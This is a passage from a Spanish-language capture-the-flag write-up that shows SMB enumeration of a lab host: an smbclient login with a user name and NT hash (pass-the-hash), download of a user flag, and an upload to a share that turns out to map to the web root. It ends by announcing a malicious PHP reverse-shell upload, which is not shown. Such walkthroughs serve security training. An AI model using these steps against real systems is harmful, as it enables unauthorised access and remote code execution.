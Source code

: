 Podemos descargarnos esta flag y visualizarla.
```console
smb: \> get user.txt
getting file \user.txt of size 33 as user.txt (4.0 KiloBytes/sec) (average 4.0 KiloBytes/sec)
```

```console
cat -p user.txt
331f2b89261b006...
```

Fuera de esto no encontramos nada mas relevante, enumerando el recurso `RESOURCE` vemos que no hay ningún archivo.
```console
smbclient \\\\192.168.2.8\\RESOURCE -p 4445 -U 'crow%F9FE0310AF66C797A73CB60B1953FCD7' --pw-nt-hash
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D     4096  Fri Nov 29 14:28:33 2024
  ..                                  D     4096  Fri Nov 29 14:26:22 2024

		148529400 blocks of size 1024. 14851044 blocks available
```

# Arbitrary File Upload -> Foothold
Podemos probar a subir un archivo, y vemos que podemos perfectamente subir un archivo.
```console
smb: \> put hash
putting file hash as \hash (4.6 kb/s) (average 4.6 kb/s)
smb: \> dir
  hash                               AN       33  Thu Jan  2 15:45:26 2025

		148529400 blocks of size 1024. 14851044 blocks available
```

Ahora bien, ¿Dónde estamos subiendo este contenido?, podemos recordar lo que vimos a través del SNMP y lo estamos subiendo al directorio `manager_backup` en la ruta `/var/www/html` por lo cual, podríamos acceder a este fichero que hemos subido a través del servidor web.
```text
HOST-RESOURCES-MIB::hrSWRunParameters.421 = STRING: "/usr/local/bin/smbserver.py resource /var/www/html/manager_backup -username crow -hashes :F9FE0310AF66C797A73CB60B1953FCD7 -smb2"
```

Y efectivamente, aquí esta el archivo que hemos subido.
![Write-up Image](images/Screenshot_2.png)

Como antes hemos visto que el servidor web interpreta contenido PHP, vamos a subir un archivo PHP malicioso para compartirnos una reverse shell.
